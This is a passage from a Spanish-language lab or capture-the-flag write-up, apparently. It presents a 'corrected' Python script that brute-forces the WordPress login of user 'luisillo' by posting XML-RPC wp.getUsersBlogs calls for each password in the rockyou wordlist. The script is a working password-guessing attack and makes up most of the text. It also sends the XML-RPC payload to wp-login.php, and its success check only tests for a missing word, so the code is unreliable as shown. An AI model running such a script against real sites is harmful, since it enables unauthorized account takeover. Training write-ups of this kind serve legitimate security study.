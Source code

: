 - **Envío de solicitud:** Se envía una solicitud POST a la URL con el XML generado.
    
- **Verificación de respuesta:** Si el texto de la respuesta no contiene la palabra "incorrectos", se asume que se encontró la contraseña correcta y se muestra un mensaje, finalizando la ejecución con `exit()`.
    

---

## 4. **Corrección del Payload con Formateo de Cadenas**

**Código corregido con f-string:**

```python
import requests
import signal

url = 'http://escolares.dl/wordpress/wp-login.php'
usuario = 'luisillo'
contraseña = 'rockyou.txt'

with open(contraseña, 'r', encoding='latin-1') as diccionario:
    passwords = diccionario.readlines()

for password in passwords:
    password = password.strip()

    payload = f"""
<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>{usuario}</value></param>
<param><value>{password}</value></param>
</params>
</methodCall>
"""

    print(f"Probamos con la contraseña {password}")

    respuesta = requests.post(url, data=payload)

    if 'incorrectos' not in respuesta.text:
        print(f"La contraseña del usuario luisillo es {password}")
        exit()
```

### **Mejoras realizadas:**

- **Uso de f-string:** Se reemplaza el payload por una cadena formateada (f-string) para insertar directamente las variables `usuario` y `password`.
    
- **Inclusión de la cabecera XML:** Se añade la declaración XML para asegurar que el payload tenga el formato correcto.
    